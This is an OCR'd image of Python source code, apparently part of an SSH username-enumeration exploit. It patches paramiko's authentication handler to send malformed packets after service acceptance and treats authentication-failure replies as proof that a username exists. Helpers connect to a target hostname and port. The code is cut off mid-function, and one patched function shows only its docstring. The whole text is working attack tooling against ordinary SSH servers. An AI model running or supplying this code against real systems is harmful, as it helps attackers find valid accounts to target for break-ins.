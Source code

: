         def patched_add_boolean(*args, **kwargs):
            """ Override correct behavior of paramiko.message.Message.add_boolean, used to produce malformed packets. """

        auth_handler = paramiko.auth_handler.AuthHandler
        old_msg_service_accept = auth_handler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]

        def patched_msg_service_accept(*args, **kwargs):
            """ Patches paramiko.message.Message.add_boolean to produce a malformed packet. """
            old_add_boolean, paramiko.message.Message.add_boolean = paramiko.message.Message.add_boolean, patched_add_boolean
            retval = old_msg_service_accept(*args, **kwargs)
            paramiko.message.Message.add_boolean = old_add_boolean
            return retval

        def patched_userauth_failure(*args, **kwargs):
            """ Called during authentication when a username is not found. """
            raise InvalidUsername(*args, **kwargs)

        auth_handler._client_handler_table.update({
            paramiko.common.MSG_SERVICE_ACCEPT: patched_msg_service_accept,
            paramiko.common.MSG_USERAUTH_FAILURE: patched_userauth_failure
        })


    def create_socket(hostname: str, port: int) -> Union[socket.socket, None]:
        """ Small helper to stay DRY.
        Returns:
            socket.socket or None
        """
        # spoiler alert, I don't care about the -6 flag, it's really
        # just to advertise in the help that the program can handle ipv6
        try:
            return socket.create_connection((hostname, port))
        except socket.error as e:
            print(f'socket error: {e}', file=sys.stdout)


    def connect(username: str, hostname: str, port: int, verbose: bool = False, **kwargs) -> None:
        """ Connect and attempt keybased auth, result interpreted to determine valid username.
        Args:
            username:   username to check against the ssh service
            hostname:   hostname/IP of target
            port:       port where ssh is listening
            key:        key used for auth
            verbose:    bool value; determines whether to print 'not found' lines or not
        Returns:
            None
        """
        sock = create_socket(hostname, port)
        if not sock:
            return
